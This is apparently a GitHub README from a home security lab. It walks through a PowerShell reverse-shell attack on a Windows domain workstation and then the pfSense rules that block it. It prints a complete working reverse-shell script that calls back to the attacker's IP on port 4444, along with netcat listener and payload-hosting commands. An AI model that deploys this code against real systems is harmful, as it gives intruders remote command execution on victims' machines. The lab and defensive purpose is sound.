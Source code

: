 
# Reverse Shell Backdoor with Powershell Cradle Attack

## Overview

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB
- **Attacker:** Kali «
  - **IP Address:** 192.168.20.30

## Objective
Create and deploy a malicious PowerShell script to establish a reverse shell on a Windows workstation. The attacker uses Kali Linux to serve the payload and capture the connection, giving them remote access to the Windows's machine.

## Attack Execution Timeline

### 1. **Create Malicious PowerShell Payload**

Firstly, I created a malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell back to my Kali's machine, based on this [git](https://github.com/das-lab/mpsd) and [post](https://learn.microsoft.com/en-us/defender-endpoint/run-detection-test?source=recommendations&view=o365-worldwide):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the Kali
    $writer.Write("> ")  
    $writer.Flush()    
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the Kali
    $writer.WriteLine($output)
    $writer.Flush()
}

$client.Close()
```

### 2. **Set Up HTTP Server to Serve Payload**

Once the payload script was created, I hosted an HTTP web server just to simulate the Windows user to download malware through a link. Meanwhile I used Netcat to listen for an incoming connection from the reverse shell:

```bash
python3 -m http.server 80
```
```bash
nc -lvnp 4444
```

### 4. **Victim Downloads and Executes the Malicious Payload**

After the Windows user has downloaded and executed the malicious payload,it bypasses the PowerShell execution policy and downloads the malicious script from the attacker’s web server to the target machine. Once executed, the script initiates the reverse shell and connects back to my kali’s machine.

### 5. **Execute Commands on the Target Machine**

After successfully establishing the reverse shell, I could run every command that i wanted to on that Windows machine or gather information about the system. Some useful commands executed during the attack include:

- **`whoami`** – To confirm the user currently logged in:

![whoami](https://github.com/user-attachments/assets/7a988e9f-9477-4124-ba5f-e5a70b6656cb)



- **`tasklist`** – To list all running processes:
  
![tasklist](https://github.com/user-attachments/assets/9751f108-cbbe-4467-b7e1-49f94d57b2cb)


- **`ipconfig`** – To display the network configuration, including IP addresses:
  
![ipconfig](https://github.com/user-attachments/assets/78b34a03-65f9-4b65-b641-ba866db86f93)


- **`systeminfo`** – To gather detailed information about the operating system and hardware:
  
![systeminfo](https://github.com/user-attachments/assets/3f524861-1014-4602-b281-2b24def33d74)


## PfSense Configuration

1- **Block Unauthorized Outbound Traffic (Reverse Shell Protection):**

![rule1](https://github.com/user-attachments/assets/ba106ecb-9147-4d63-8dda-af2b43ab352b)


**Explanation:**  
Reverse shells typically use common TCP ports (like 4444) to establish outbound connections to an attacker’s machine, this rule blocks these outbound connections, preventing compromised systems from connecting back to kali.


2- **Restrict PowerShell Downloads:**

![rule2](https://github.com/user-attachments/assets/48c6ac50-19e7-4254-ba25-7854df7ae71b)

**Explanation:**  
PowerShell cradle attacks often download scripts via HTTP/HTTPS. This rule blocks PowerShell from making external web requests, mitigating PowerShell-based malware delivery.


Note: In this experiment, CrowdSec was disabled to allow this action to proceed, but the rules are on the [configs directory](https://github.com/NunooFerreira/SOC-Lab-Home-Cybersecurity-Monitoring/blob/main/configs/CrowdSec_configs/custom_reverse_powershell.yaml).


